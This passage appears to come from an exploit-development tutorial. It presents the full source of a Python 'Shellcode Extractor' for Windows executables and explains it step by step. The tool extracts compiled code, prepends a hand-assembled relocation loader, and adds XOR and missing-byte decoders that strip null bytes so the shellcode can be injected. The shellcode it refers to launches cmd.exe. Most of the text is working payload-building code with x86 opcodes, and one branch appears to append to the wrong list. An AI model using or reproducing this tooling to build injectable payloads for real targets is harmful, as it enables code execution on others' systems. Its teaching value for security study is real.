Extracts the shellcode from the .text section of the file exe_file and the string
relocations.
Returns the triple (shellcode, relocs, addr_to_strings).
'''
try:
# Extracts the shellcode.
pe = pefile.PE(exe_file)
shellcode = None
rdata = None
for s in pe.sections:
if s.Name == '.text\0\0\0':
if s.SizeOfRawData < shellcode_len:
raise Exception('.text section too small')
shellcode_start = s.VirtualAddress
shellcode_end = shellcode_start + shellcode_len
shellcode = pe.get_data(s.VirtualAddress, shellcode_len)
elif s.Name == '.rdata\0\0':
rdata_start = s.VirtualAddress
rdata_end = rdata_start + s.Misc_VirtualSize
rdata = pe.get_data(rdata_start, s.Misc_VirtualSize)
if shellcode is None:
raise Exception('.text section not found')
if rdata is None:
raise Exception('.rdata section not found')
# Extracts the relocations for the shellcode and the referenced strings in .rdata.
relocs = []
addr_to_strings = {}
for rel_data in pe.DIRECTORY_ENTRY_BASERELOC:
for entry in rel_data.entries[:-1]: # the last element's rvs is the base_rva (why?)
if shellcode_start <= entry.rva < shellcode_end:
# The relocation location is inside the shellcode.
relocs.append(entry.rva - shellcode_start) # offset relative to the start of shellcode
string_va = pe.get_dword_at_rva(entry.rva)
string_rva = string_va - pe.OPTIONAL_HEADER.ImageBase
if string_rva < rdata_start or string_rva >= rdata_end:
raise Exception('shellcode references a section other than .rdata')
str = get_cstring(rdata, string_rva - rdata_start)
if str is None:
raise Exception('Cannot extract string from .rdata')
addr_to_strings[string_va] = str
return (shellcode, relocs, addr_to_strings)
except WindowsError:
print('[!] get_shellcode: Cannot open "%s"' % exe_file)
return None
except Exception as e:
print('[!] get_shellcode: %s' % e.message)
return None
def dword_to_string(dword):
return ''.join([chr(x) for x in dword_to_bytes(dword)])
def add_loader_to_shellcode(shellcode, relocs, addr_to_strings):
if len(relocs) == 0:
return shellcode # there are no relocations
# The format of the new shellcode is:
# call here
# here:
# ...
# shellcode_start:
# <shellcode> (contains offsets to strX (offset are from "here" label))
# relocs:
# off1|off2|... (offsets to relocations (offset are from "here" label))
# str1|str2|...
delta = 21 # shellcode_start - here
# Builds the first part (up to and not including the shellcode).
x = dword_to_bytes(delta + len(shellcode))
y = dword_to_bytes(len(relocs))
code = [
0xE8, 0x00, 0x00, 0x00, 0x00, # CALL here
# here:
0x5E, # POP ESI
0x8B, 0xFE, # MOV EDI, ESI
0x81, 0xC6, x[0], x[1], x[2], x[3], # ADD ESI, shellcode_start + len(shellcode) - here
0xB9, y[0], y[1], y[2], y[3], # MOV ECX, len(relocs)
0xFC, # CLD
# again:
0xAD, # LODSD
0x01, 0x3C, 0x07, # ADD [EDI+EAX], EDI
0xE2, 0xFA # LOOP again
# shellcode_start:
]
# Builds the final part (offX and strX).
offset = delta + len(shellcode) + len(relocs) * 4 # offset from "here" label
final_part = [dword_to_string(r + delta) for r in relocs]
addr_to_offset = {}
for addr in addr_to_strings.keys():
str = addr_to_strings[addr]
final_part.append(str)
addr_to_offset[addr] = offset
offset += len(str)
# Fixes the shellcode so that the pointers referenced by relocs point to the
# string in the final part.
byte_shellcode = [ord(c) for c in shellcode]
for off in relocs:
addr = bytes_to_dword(byte_shellcode[off:off+4])
byte_shellcode[off:off+4] = dword_to_bytes(addr_to_offset[addr])
return ''.join([chr(b) for b in (code + byte_shellcode)]) + ''.join(final_part)
def dump_shellcode(shellcode):
'''
Prints shellcode in C format ('\x12\x23...')
'''
shellcode_len = len(shellcode)
sc_array = []
bytes_per_row = 16
for i in range(shellcode_len):
pos = i % bytes_per_row
str = ''
if pos == 0:
str += '"'
str += '\\x%02x' % ord(shellcode[i])
if i == shellcode_len - 1:
str += '";\n'
elif pos == bytes_per_row - 1:
str += '"\n'
sc_array.append(str)
shellcode_str = ''.join(sc_array)
print(shellcode_str)
def get_xor_values(value):
'''
Finds x and y such that:
1) x xor y == value
2) x and y doesn't contain null bytes
Returns x and y as arrays of bytes starting from the lowest significant byte.
'''
# Finds a non-null missing bytes.
bytes = dword_to_bytes(value)
missing_byte = [b for b in range(1, 256) if b not in bytes][0]
xor1 = [b ^ missing_byte for b in bytes]
xor2 = [missing_byte] * 4
return (xor1, xor2)
def get_fixed_shellcode_single_block(shellcode):
'''
Returns a version of shellcode without null bytes or None if the
shellcode can't be fixed.
If this function fails, use get_fixed_shellcode().
'''
# Finds one non-null byte not present, if any.
bytes = set([ord(c) for c in shellcode])
missing_bytes = [b for b in range(1, 256) if b not in bytes]
if len(missing_bytes) == 0:
return None # shellcode can't be fixed
missing_byte = missing_bytes[0]
(xor1, xor2) = get_xor_values(len(shellcode))
code = [
0xE8, 0xFF, 0xFF, 0xFF, 0xFF, # CALL $ + 4
# here:
0xC0, # (FF)C0 = INC EAX
0x5F, # POP EDI
0xB9, xor1[0], xor1[1], xor1[2], xor1[3], # MOV ECX, <xor value 1 for shellcode len>
0x81, 0xF1, xor2[0], xor2[1], xor2[2], xor2[3], # XOR ECX, <xor value 2 for shellcode len>
0x83, 0xC7, 29, # ADD EDI, shellcode_begin - here
0x33, 0xF6, # XOR ESI, ESI
0xFC, # CLD
# loop1:
0x8A, 0x07, # MOV AL, BYTE PTR [EDI]
0x3C, missing_byte, # CMP AL, <missing byte>
0x0F, 0x44, 0xC6, # CMOVE EAX, ESI
0xAA, # STOSB
0xE2, 0xF6 # LOOP loop1
# shellcode_begin:
]
return ''.join([chr(x) for x in code]) + shellcode.replace('\0', chr(missing_byte))
def get_fixed_shellcode(shellcode):
'''
Returns a version of shellcode without null bytes. This version divides
the shellcode into multiple blocks and should be used only if
get_fixed_shellcode_single_block() doesn't work with this shellcode.
'''
# The format of bytes_blocks is
# [missing_byte1, number_of_blocks1,
# missing_byte2, number_of_blocks2, ...]
# where missing_byteX is the value used to overwrite the null bytes in the
# shellcode, while number_of_blocksX is the number of 254-byte blocks where
# to use the corresponding missing_byteX.
bytes_blocks = []
shellcode_len = len(shellcode)
i = 0
while i < shellcode_len:
num_blocks = 0
missing_bytes = list(range(1, 256))
# Tries to find as many 254-byte contiguous blocks as possible which misses at
# least one non-null value. Note that a single 254-byte block always misses at
# least one non-null value.
while True:
if i >= shellcode_len or num_blocks == 255:
bytes_blocks += [missing_bytes[0], num_blocks]
break
bytes = set([ord(c) for c in shellcode[i:i+254]])
new_missing_bytes = [b for b in missing_bytes if b not in bytes]
if len(new_missing_bytes) != 0: # new block added
missing_bytes = new_missing_bytes
num_blocks += 1
i += 254
else:
bytes += [missing_bytes[0], num_blocks]
break
if len(bytes_blocks) > 0x7f - 5:
# Can't assemble "LEA EBX, [EDI + (bytes-here)]" or "JMP skip_bytes".
return None
(xor1, xor2) = get_xor_values(len(shellcode))
code = ([
0xEB, len(bytes_blocks)] + # JMP SHORT skip_bytes
# bytes:
bytes_blocks + [ # ...
# skip_bytes:
0xE8, 0xFF, 0xFF, 0xFF, 0xFF, # CALL $ + 4
# here:
0xC0, # (FF)C0 = INC EAX
0x5F, # POP EDI
0xB9, xor1[0], xor1[1], xor1[2], xor1[3], # MOV ECX, <xor value 1 for shellcode len>
0x81, 0xF1, xor2[0], xor2[1], xor2[2], xor2[3], # XOR ECX, <xor value 2 for shellcode len>
0x8D, 0x5F, -(len(bytes_blocks) + 5) & 0xFF, # LEA EBX, [EDI + (bytes - here)]
0x83, 0xC7, 0x30, # ADD EDI, shellcode_begin - here
# loop1:
0xB0, 0xFE, # MOV AL, 0FEh
0xF6, 0x63, 0x01, # MUL AL, BYTE PTR [EBX+1]
0x0F, 0xB7, 0xD0, # MOVZX EDX, AX
0x33, 0xF6, # XOR ESI, ESI
0xFC, # CLD
# loop2:
0x8A, 0x07, # MOV AL, BYTE PTR [EDI]
0x3A, 0x03, # CMP AL, BYTE PTR [EBX]
0x0F, 0x44, 0xC6, # CMOVE EAX, ESI
0xAA, # STOSB
0x49, # DEC ECX
0x74, 0x07, # JE shellcode_begin
0x4A, # DEC EDX
0x75, 0xF2, # JNE loop2
0x43, # INC EBX
0x43, # INC EBX
0xEB, 0xE3 # JMP loop1
# shellcode_begin:
])
new_shellcode_pieces = []
pos = 0
for i in range(len(bytes_blocks) / 2):
missing_char = chr(bytes_blocks[i*2])
num_bytes = 254 * bytes_blocks[i*2 + 1]
new_shellcode_pieces.append(shellcode[pos:pos+num_bytes].replace('\0', missing_char))
pos += num_bytes
return ''.join([chr(x) for x in code]) + ''.join(new_shellcode_pieces)
def main():
print("Shellcode Extractor by %s (%d)\n" % (author, year))
if len(sys.argv) != 3:
print('Usage:\n' +
' %s <exe file> <map file>\n' % os.path.basename(sys.argv[0]))
return
exe_file = sys.argv[1]
map_file = sys.argv[2]
print('Extracting shellcode length from "%s"...' % os.path.basename(map_file))
shellcode_len = get_shellcode_len(map_file)
if shellcode_len is None:
return
print('shellcode length: %d' % shellcode_len)
print('Extracting shellcode from "%s" and analyzing relocations...' % os.path.basename(exe_file))
result = get_shellcode_and_relocs(exe_file, shellcode_len)
if result is None:
return
(shellcode, relocs, addr_to_strings) = result
if len(relocs) != 0:
print('Found %d reference(s) to %d string(s) in .rdata' % (len(relocs), len(addr_to_strings)))
print('Strings:')
for s in addr_to_strings.values():
print(' ' + s[:-1])
print('')
shellcode = add_loader_to_shellcode(shellcode, relocs, addr_to_strings)
else:
print('No relocations found')
if shellcode.find('\0') == -1:
print('Unbelievable: the shellcode does not need to be fixed!')
fixed_shellcode = shellcode
else:
# shellcode contains null bytes and needs to be fixed.
print('Fixing the shellcode...')
fixed_shellcode = get_fixed_shellcode_single_block(shellcode)
if fixed_shellcode is None: # if shellcode wasn't fixed...
fixed_shellcode = get_fixed_shellcode(shellcode)
if fixed_shellcode is None:
print('[!] Cannot fix the shellcode')
print('final shellcode length: %d\n' % len(fixed_shellcode))
print('char shellcode[] = ')
dump_shellcode(fixed_shellcode)
main()
Map file and shellcode length
We told the linker to produce a map file with the following options:
- Debugging:
- Generate Map File: Yes (/MAP)
Tells the linker to generate a map file containing the structure of the EXE) - Map File Name: mapfile
- Generate Map File: Yes (/MAP)
The map file is important to determine the shellcode length.
Here’s the relevant part of the map file:
shellcode
Timestamp is 54fa2c08 (Fri Mar 06 23:36:56 2015)
Preferred load address is 00400000
Start Length Name Class
0001:00000000 00000a9cH .text$mn CODE
0002:00000000 00000094H .idata$5 DATA
0002:00000094 00000004H .CRT$XCA DATA
0002:00000098 00000004H .CRT$XCAA DATA
0002:0000009c 00000004H .CRT$XCZ DATA
0002:000000a0 00000004H .CRT$XIA DATA
0002:000000a4 00000004H .CRT$XIAA DATA
0002:000000a8 00000004H .CRT$XIC DATA
0002:000000ac 00000004H .CRT$XIY DATA
0002:000000b0 00000004H .CRT$XIZ DATA
0002:000000c0 000000a8H .rdata DATA
0002:00000168 00000084H .rdata$debug DATA
0002:000001f0 00000004H .rdata$sxdata DATA
0002:000001f4 00000004H .rtc$IAA DATA
0002:000001f8 00000004H .rtc$IZZ DATA
0002:000001fc 00000004H .rtc$TAA DATA
0002:00000200 00000004H .rtc$TZZ DATA
0002:00000208 0000005cH .xdata$x DATA
0002:00000264 00000000H .edata DATA
0002:00000264 00000028H .idata$2 DATA
0002:0000028c 00000014H .idata$3 DATA
0002:000002a0 00000094H .idata$4 DATA
0002:00000334 0000027eH .idata$6 DATA
0003:00000000 00000020H .data DATA
0003:00000020 00000364H .bss DATA
0004:00000000 00000058H .rsrc$01 DATA
0004:00000060 00000180H .rsrc$02 DATA
Address Publics by Value Rva+Base Lib:Object
0000:00000000 ___guard_fids_table 00000000 <absolute>
0000:00000000 ___guard_fids_count 00000000 <absolute>
0000:00000000 ___guard_flags 00000000 <absolute>
0000:00000001 ___safe_se_handler_count 00000001 <absolute>
0000:00000000 ___ImageBase 00400000 <linker-defined>
0001:00000000 ?entryPoint@@YAHXZ 00401000 f shellcode.obj
0001:000001a1 ?getHash@@YAKPBD@Z 004011a1 f shellcode.obj
0001:000001be ?getProcAddrByHash@@YAPAXK@Z 004011be f shellcode.obj
0001:00000266 _main 00401266 f shellcode.obj
0001:000004d4 _mainCRTStartup 004014d4 f MSVCRT:crtexe.obj
0001:000004de ?__CxxUnhandledExceptionFilter@@YGJPAU_EXCEPTION_POINTERS@@@Z 004014de f MSVCRT:unhandld.obj
0001:0000051f ___CxxSetUnhandledExceptionFilter 0040151f f MSVCRT:unhandld.obj
0001:0000052e __XcptFilter 0040152e f MSVCRT:MSVCR120.dll
<snip>The start of the map file tells us that section 1 is the .text section, which contains the code:
Start Length Name Class 0001:00000000 00000a9cH .text$mn CODE
The second part tells us that the .text section starts with ?entryPoint@@YAHXZ, our entryPoint function, and that main (here called _main) is the last of our functions. Since main is at offset 0x266 and entryPoint is at 0, our shellcode starts at the beginning of the .text section and is 0x266 bytes long.
Here’s how we do it in Python:
def get_shellcode_len(map_file):
'''
Gets the length of the shellcode by analyzing map_file (map produced by VS 2013)
'''
try:
with open(map_file, 'r') as f:
lib_object = None
shellcode_len = None
for line in f:
parts = line.split()
if lib_object is not None:
if parts[-1] == lib_object:
raise Exception('_main is not the last function of %s' % lib_object)
else:
break
elif (len(parts) > 2 and parts[1] == '_main'):
# Format:
# 0001:00000274 _main 00401274 f shellcode.obj
shellcode_len = int(parts[0].split(':')[1], 16)
lib_object = parts[-1]
if shellcode_len is None:
raise Exception('Cannot determine shellcode length')
except IOError:
print('[!] get_shellcode_len: Cannot open "%s"' % map_file)
return None
except Exception as e:
print('[!] get_shellcode_len: %s' % e.message)
return None
return shellcode_len
extracting the shellcode
This part is very easy. We know the shellcode length and that the shellcode is located at the beginning of the .text section. Here’s the code:
def get_shellcode_and_relocs(exe_file, shellcode_len):
'''
Extracts the shellcode from the .text section of the file exe_file and the string
relocations.
Returns the triple (shellcode, relocs, addr_to_strings).
'''
try:
# Extracts the shellcode.
pe = pefile.PE(exe_file)
shellcode = None
rdata = None
for s in pe.sections:
if s.Name == '.text\0\0\0':
if s.SizeOfRawData < shellcode_len:
raise Exception('.text section too small')
shellcode_start = s.VirtualAddress
shellcode_end = shellcode_start + shellcode_len
shellcode = pe.get_data(s.VirtualAddress, shellcode_len)
elif s.Name == '.rdata\0\0':
<snip>
if shellcode is None:
raise Exception('.text section not found')
if rdata is None:
raise Exception('.rdata section not found')
<snip>
I use the module pefile (download) which is quite intuitive to use. The relevant part is the body of the if.
strings and .rdata
As we said before, our C/C++ code may contain strings. For instance, our shellcode contains the following line:
My_CreateProcessA(NULL, "cmd.exe", NULL, NULL, TRUE, 0, NULL, NULL, &sInfo, &procInfo);
The string cmd.exe is located in the .rdata section, a read-only section containing initialized data. The code refers to that string using an absolute address:
00241152 50 push eax 00241153 8D 44 24 5C lea eax,[esp+5Ch] 00241157 C7 84 24 88 00 00 00 00 01 00 00 mov dword ptr [esp+88h],100h 00241162 50 push eax 00241163 52 push edx 00241164 52 push edx 00241165 52 push edx 00241166 6A 01 push 1 00241168 52 push edx 00241169 52 push edx 0024116A 68 18 21 24 00 push 242118h <------------------------ 0024116F 52 push edx 00241170 89 B4 24 C0 00 00 00 mov dword ptr [esp+0C0h],esi 00241177 89 B4 24 BC 00 00 00 mov dword ptr [esp+0BCh],esi 0024117E 89 B4 24 B8 00 00 00 mov dword ptr [esp+0B8h],esi 00241185 FF 54 24 34 call dword ptr [esp+34h]
As we can see, the absolute address for cmd.exe is 242118h. Note that the address is part of a push instruction and is located at 24116Bh. If we examine the file cmd.exe with a file editor, we see the following:
56A: 68 18 21 40 00 push 000402118h
where 56Ah is the offset in the file. The corresponding virtual address (i.e. in memory) is 40116A because the image base is 400000h. This is the preferred address at which the executable should be loaded in memory. The absolute address in the instruction, 402118h, is correct if the executable is loaded at the preferred base address. However, if the executable is loaded at a different base address, the instruction needs to be fixed. How can the Windows loader know what locations of the executable contains addresses which need to be fixed? The PE file contains a Relocation Directory, which in our case points to the .reloc section. This contains all the RVAs of the locations that need to be fixed.
We can inspect this directory and look for addresses of locations that
- are contained in the shellcode (i.e. go from .text:0 to the main function excluded),
- contains pointers to data in .rdata.
For example, the Relocation Directory will contain, among many other addresses, the address 40116Bh which locates the last four bytes of the instruction push 402118h. These bytes form the address 402118h which points to the string cmd.exe contained in .rdata (which starts at address 402000h).
Let’s look at the function get_shellcode_and_relocs. In the first part we extract the .rdata section:
def get_shellcode_and_relocs(exe_file, shellcode_len):
'''
Extracts the shellcode from the .text section of the file exe_file and the string
relocations.
Returns the triple (shellcode, relocs, addr_to_strings).
'''
try:
# Extracts the shellcode.
pe = pefile.PE(exe_file)
shellcode = None
rdata = None
for s in pe.sections:
if s.Name == '.text\0\0\0':
<snip>
elif s.Name == '.rdata\0\0':
rdata_start = s.VirtualAddress
rdata_end = rdata_start + s.Misc_VirtualSize
rdata = pe.get_data(rdata_start, s.Misc_VirtualSize)
if shellcode is None:
raise Exception('.text section not found')
if rdata is None:
raise Exception('.rdata section not found')
The relevant part is the body of the elif.
In the second part of the same function, we analyze the relocations, find the locations within our shellcode and extract from .rdata the null-terminated strings referenced by those locations.
As we already said, we’re only interested in locations contained in our shellcode. Here’s the relevant part of the function get_shellcode_and_relocs:
# Extracts the relocations for the shellcode and the referenced strings in .rdata.
relocs = []
addr_to_strings = {}
for rel_data in pe.DIRECTORY_ENTRY_BASERELOC:
for entry in rel_data.entries[:-1]: # the last element's rvs is the base_rva (why?)
if shellcode_start <= entry.rva < shellcode_end:
# The relocation location is inside the shellcode.
relocs.append(entry.rva - shellcode_start) # offset relative to the start of shellcode
string_va = pe.get_dword_at_rva(entry.rva)
string_rva = string_va - pe.OPTIONAL_HEADER.ImageBase
if string_rva < rdata_start or string_rva >= rdata_end:
raise Exception('shellcode references a section other than .rdata')
str = get_cstring(rdata, string_rva - rdata_start)
if str is None:
raise Exception('Cannot extract string from .rdata')
addr_to_strings[string_va] = str
return (shellcode, relocs, addr_to_strings)
pe.DIRECTORY_ENTRY_BASERELOC is a list of data structures which contain a field named entries which is a list of relocations. First we check that the current relocation is within the shellcode. If it is, we do the following:
- we append to relocs the offset of the relocation relative to the start of the shellcode;
- we extract from the shellcode the DWORD located at the offset just found and check that this DWORD points to data in .rdata;
- we extract from .rdata the null-terminated string whose starting location we found in (2);
- we add the string to addr_to_strings.
Note that:
- relocs contains the offsets of the relocations within shellcode, i.e. the offsets of the DWORDs within shellcode that need to be fixed so that they point to the strings;
- addr_to_strings is a dictionary that associates the addresses found in (2) above to the actual strings.
adding the loader to the shellcode
The idea is to add the strings contained in addr_to_strings to the end of our shellcode and then to make the code in our shellcode reference those strings. Unfortunately, the code→strings linking must be done at runtime because we don’t know the starting address of the shellcode. To do this, we need to prepend a sort of “loader” which fixes the shellcode at runtime. Here’s the structure of our shellcode after the transformation:

{kind=link}
offX are DWORDs which point to the locations in the original shellcode that need to be fixed. The loader will fix these locations so that they point to the correct strings strX.
To see exactly how things work, try to understand the following code:
def add_loader_to_shellcode(shellcode, relocs, addr_to_strings):
if len(relocs) == 0:
return shellcode # there are no relocations
# The format of the new shellcode is:
# call here
# here:
# ...
# shellcode_start:
# <shellcode> (contains offsets to strX (offset are from "here" label))
# relocs:
# off1|off2|... (offsets to relocations (offset are from "here" label))
# str1|str2|...
delta = 21 # shellcode_start - here
# Builds the first part (up to and not including the shellcode).
x = dword_to_bytes(delta + len(shellcode))
y = dword_to_bytes(len(relocs))
code = [
0xE8, 0x00, 0x00, 0x00, 0x00, # CALL here
# here:
0x5E, # POP ESI
0x8B, 0xFE, # MOV EDI, ESI
0x81, 0xC6, x[0], x[1], x[2], x[3], # ADD ESI, shellcode_start + len(shellcode) - here
0xB9, y[0], y[1], y[2], y[3], # MOV ECX, len(relocs)
0xFC, # CLD
# again:
0xAD, # LODSD
0x01, 0x3C, 0x07, # ADD [EDI+EAX], EDI
0xE2, 0xFA # LOOP again
# shellcode_start:
]
# Builds the final part (offX and strX).
offset = delta + len(shellcode) + len(relocs) * 4 # offset from "here" label
final_part = [dword_to_string(r + delta) for r in relocs]
addr_to_offset = {}
for addr in addr_to_strings.keys():
str = addr_to_strings[addr]
final_part.append(str)
addr_to_offset[addr] = offset
offset += len(str)
# Fixes the shellcode so that the pointers referenced by relocs point to the
# string in the final part.
byte_shellcode = [ord(c) for c in shellcode]
for off in relocs:
addr = bytes_to_dword(byte_shellcode[off:off+4])
byte_shellcode[off:off+4] = dword_to_bytes(addr_to_offset[addr])
return ''.join([chr(b) for b in (code + byte_shellcode)]) + ''.join(final_part)
Let’s have a look at the loader:
CALL here ; PUSH EIP+5; JMP here
here:
POP ESI ; ESI = address of "here"
MOV EDI, ESI ; EDI = address of "here"
ADD ESI, shellcode_start + len(shellcode) - here ; ESI = address of off1
MOV ECX, len(relocs) ; ECX = number of locations to fix
CLD ; tells LODSD to go forwards
again:
LODSD ; EAX = offX; ESI += 4
ADD [EDI+EAX], EDI ; fixes location within shellcode
LOOP again ; DEC ECX; if ECX > 0 then JMP again
shellcode_start:
<shellcode>
relocs:
off1|off2|...
str1|str2|...
The first CALL is used to get the absolute address of here in memory. The loader uses this information to fix the offsets within the original shellcode. ESI points to off1 so LODSD is used to read the offsets one by one. The instruction
ADD [EDI+EAX], EDI
fixes the locations within the shellcode. EAX is the current offX which is the offset of the location relative to here. This means that EDI+EAX is the absolute address of that location. The DWORD at that location contains the offset to the correct string relative to here. By adding EDI to that DWORD, we turn the DWORD into the absolute address to the string. When the loader has finished, the shellcode, now fixed, is executed.
To conclude, it should be said that add_loader_to_shellcode is called only if there are relocations. You can see that in the main function:
<snip>
if len(relocs) != 0:
print('Found %d reference(s) to %d string(s) in .rdata' % (len(relocs), len(addr_to_strings)))
print('Strings:')
for s in addr_to_strings.values():
print(' ' + s[:-1])
print('')
shellcode = add_loader_to_shellcode(shellcode, relocs, addr_to_strings)
else:
print('No relocations found')
<snip>
Removing null-bytes from the shellcode (I)
After relocations, if any, have been handled, it’s time to deal with the null bytes present in the shellcode. As we’ve already said, we need to remove them. To do that, I wrote two functions:
- get_fixed_shellcode_single_block
- get_fixed_shellcode
The first function doesn’t always work but produces shorter code so it should be tried first. The second function produces longer code but is guaranteed to work.
Let’s start with get_fixed_shellcode_single_block. Here’s the function definition:
def get_fixed_shellcode_single_block(shellcode):
'''
Returns a version of shellcode without null bytes or None if the
shellcode can't be fixed.
If this function fails, use get_fixed_shellcode().
'''
# Finds one non-null byte not present, if any.
bytes = set([ord(c) for c in shellcode])
missing_bytes = [b for b in range(1, 256) if b not in bytes]
if len(missing_bytes) == 0:
return None # shellcode can't be fixed
missing_byte = missing_bytes[0]
(xor1, xor2) = get_xor_values(len(shellcode))
code = [
0xE8, 0xFF, 0xFF, 0xFF, 0xFF, # CALL $ + 4
# here:
0xC0, # (FF)C0 = INC EAX
0x5F, # POP EDI
0xB9, xor1[0], xor1[1], xor1[2], xor1[3], # MOV ECX, <xor value 1 for shellcode len>
0x81, 0xF1, xor2[0], xor2[1], xor2[2], xor2[3], # XOR ECX, <xor value 2 for shellcode len>
0x83, 0xC7, 29, # ADD EDI, shellcode_begin - here
0x33, 0xF6, # XOR ESI, ESI
0xFC, # CLD
# loop1:
0x8A, 0x07, # MOV AL, BYTE PTR [EDI]
0x3C, missing_byte, # CMP AL, <missing byte>
0x0F, 0x44, 0xC6, # CMOVE EAX, ESI
0xAA, # STOSB
0xE2, 0xF6 # LOOP loop1
# shellcode_begin:
]
return ''.join([chr(x) for x in code]) + shellcode.replace('\0', chr(missing_byte))
The idea is very simple. We analyze the shellcode byte by byte and see if there is a missing value, i.e. a byte value which doesn’t appear anywhere in the shellcode. Let’s say this value is 0x14. We can now replace every 0x00 in the shellcode with 0x14. The shellcode doesn’t contain null bytes anymore but can’t run because was modified. The last step is to add some sort of decoder to the shellcode that, at runtime, will restore the null bytes before the original shellcode is executed. You can see that code defined in the array code:
CALL $ + 4 ; PUSH "here"; JMP "here"-1
here:
(FF)C0 = INC EAX ; not important: just a NOP
POP EDI ; EDI = "here"
MOV ECX, <xor value 1 for shellcode len>
XOR ECX, <xor value 2 for shellcode len> ; ECX = shellcode length
ADD EDI, shellcode_begin - here ; EDI = absolute address of original shellcode
XOR ESI, ESI ; ESI = 0
CLD ; tells STOSB to go forwards
loop1:
MOV AL, BYTE PTR [EDI] ; AL = current byte of the shellcode
CMP AL, <missing byte> ; is AL the special byte?
CMOVE EAX, ESI ; if AL is the special byte, then EAX = 0
STOSB ; overwrite the current byte of the shellcode with AL
LOOP loop1 ; DEC ECX; if ECX > 0 then JMP loop1
shellcode_begin:
There are a couple of important details to discuss. First of all, this code can’t contain null bytes itself, because then we’d need another piece of code to remove them 🙂
As you can see, the CALL instruction doesn’t jump to here because otherwise its opcode would’ve been
E8 00 00 00 00 # CALL here
which contains four null bytes. Since the CALL instruction is 5 bytes, CALL here is equivalent to CALL $+5. The trick to get rid of the null bytes is to use CALL $+4:
E8 FF FF FF FF # CALL $+4
That CALL skips 4 bytes and jmp to the last FF of the CALL itself. The CALL instruction is followed by the byte C0, so the instruction executed after the CALL is INC EAX which corresponds to FF C0. Note that the value pushed by the CALL is still the absolute address of the here label.
There’s a second trick in the code to avoid null bytes:
MOV ECX, <xor value 1 for shellcode len>
XOR ECX, <xor value 2 for shellcode len>
We could have just used
MOV ECX, <shellcode len>
but that would’ve produced null bytes. In fact, for a shellcode of length 0x400, we would’ve had
B9 00 04 00 00 MOV ECX, 400h
which contains 3 null bytes.
To avoid that, we choose a non-null byte which doesn’t appear in 00000400h. Let’s say we choose 0x01. Now we compute
<xor value 1 for shellcode len> = 00000400h xor 01010101 = 01010501h
<xor value 2 for shellcode len> = 01010101h
The net result is that <xor value 1 for shellcode len> and <xor value 2 for shellcode len> are both null-byte free and, when xored, produce the original value 400h.
Our two instructions become:
B9 01 05 01 01 MOV ECX, 01010501h 81 F1 01 01 01 01 XOR ECX, 01010101h
The two xor values are computed by the function get_xor_values.
Having said that, the code is easy to understand: it just walks through the shellcode byte by byte and overwrites with null bytes the bytes which contain the special value (0x14, in our previous example).
Removing null-bytes from the shellcode (II)
The method above can fail because we could be unable to find a byte value which isn’t already present in the shellcode. If that happens, we need to use get_fixed_shellcode, which is a little more complex.
The idea is to divide the shellcode into blocks of 254 bytes. Note that each block must have a “missing byte” because a byte can have 255 non-zero values. We could choose a missing byte for each block and handle each block individually. But that wouldn’t be very space efficient, because for a shellcode of 254*N bytes we would need to store N “missing bytes” before or after the shellcode (the decoder needs to know the missing bytes). A more clever approach is to use the same “missing byte” for as many 254-byte blocks as possible. We start from the beginning of the shellcode and keep taking blocks until we run out of missing bytes. When this happens, we remove the last block from the previous chunk and begin with a new chunk starting from this last block. In the end, we will have a list of <missing_byte, num_blocks> pairs:
[(missing_byte1, num_blocks1), (missing_byte2, num_blocks2), ...]
I decided to restrict num_blocksX to a single byte, so num_blocksX is between 1 and 255.
Here’s the part of get_fixed_shellcode which splits the shellcode into chunks:
def get_fixed_shellcode(shellcode):
'''
Returns a version of shellcode without null bytes. This version divides
the shellcode into multiple blocks and should be used only if
get_fixed_shellcode_single_block() doesn't work with this shellcode.
'''
# The format of bytes_blocks is
# [missing_byte1, number_of_blocks1,
# missing_byte2, number_of_blocks2, ...]
# where missing_byteX is the value used to overwrite the null bytes in the
# shellcode, while number_of_blocksX is the number of 254-byte blocks where
# to use the corresponding missing_byteX.
bytes_blocks = []
shellcode_len = len(shellcode)
i = 0
while i < shellcode_len:
num_blocks = 0
missing_bytes = list(range(1, 256))
# Tries to find as many 254-byte contiguous blocks as possible which misses at
# least one non-null value. Note that a single 254-byte block always misses at
# least one non-null value.
while True:
if i >= shellcode_len or num_blocks == 255:
bytes_blocks += [missing_bytes[0], num_blocks]
break
bytes = set([ord(c) for c in shellcode[i:i+254]])
new_missing_bytes = [b for b in missing_bytes if b not in bytes]
if len(new_missing_bytes) != 0: # new block added
missing_bytes = new_missing_bytes
num_blocks += 1
i += 254
else:
bytes += [missing_bytes[0], num_blocks]
break
<snip>
Like before, we need to discuss the “decoder” which is prepended to the shellcode. This decoder is a bit longer than the previous one but the principle is the same.
Here’s the code:
code = ([
0xEB, len(bytes_blocks)] + # JMP SHORT skip_bytes
# bytes:
bytes_blocks + [ # ...
# skip_bytes:
0xE8, 0xFF, 0xFF, 0xFF, 0xFF, # CALL $ + 4
# here:
0xC0, # (FF)C0 = INC EAX
0x5F, # POP EDI
0xB9, xor1[0], xor1[1], xor1[2], xor1[3], # MOV ECX, <xor value 1 for shellcode len>
0x81, 0xF1, xor2[0], xor2[1], xor2[2], xor2[3], # XOR ECX, <xor value 2 for shellcode len>
0x8D, 0x5F, -(len(bytes_blocks) + 5) & 0xFF, # LEA EBX, [EDI + (bytes - here)]
0x83, 0xC7, 0x30, # ADD EDI, shellcode_begin - here
# loop1:
0xB0, 0xFE, # MOV AL, 0FEh
0xF6, 0x63, 0x01, # MUL AL, BYTE PTR [EBX+1]
0x0F, 0xB7, 0xD0, # MOVZX EDX, AX
0x33, 0xF6, # XOR ESI, ESI
0xFC, # CLD
# loop2:
0x8A, 0x07, # MOV AL, BYTE PTR [EDI]
0x3A, 0x03, # CMP AL, BYTE PTR [EBX]
0x0F, 0x44, 0xC6, # CMOVE EAX, ESI
0xAA, # STOSB
0x49, # DEC ECX
0x74, 0x07, # JE shellcode_begin
0x4A, # DEC EDX
0x75, 0xF2, # JNE loop2
0x43, # INC EBX
0x43, # INC EBX
0xEB, 0xE3 # JMP loop1
# shellcode_begin:
])
bytes_blocks is the array
[missing_byte1, num_blocks1, missing_byte2, num_blocks2, ...]
we talked about before, but without pairs.
Note that the code starts with a JMP SHORT which skips bytes_blocks. For this to work len(bytes_blocks) must be less than or equal to 0x7F. But as you can see, len(bytes_blocks) appears in another instruction as well:
0x8D, 0x5F, -(len(bytes_blocks) + 5) & 0xFF, # LEA EBX, [EDI + (bytes - here)]
This requires that len(bytes_blocks) is less than or equal to 0x7F – 5, so this is the final condition. This is what happens if the condition is violated:
if len(bytes_blocks) > 0x7f - 5:
